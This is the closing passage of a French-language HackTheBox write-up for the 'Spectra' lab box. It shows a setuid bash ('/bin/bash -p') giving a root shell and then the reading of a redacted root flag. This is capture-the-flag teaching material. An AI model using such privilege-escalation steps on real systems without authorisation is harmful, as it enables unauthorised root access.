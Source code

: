 > /bin/bash -p

```
katie@spectra ~ $ /bin/bash -p
bash-4.3# whoami
root
```

Nous pouvons maintenant cat le flag root.txt.

> cat root.txt

```
bash-4.3# cat root.txt 
XXXXXXXXXXXXXXXXXXXXXXX
```



Cela conclut donc la box <u>Spectra</u>  sur la plateforme <u>HackTheBox</u>
<u>Ethost.</u>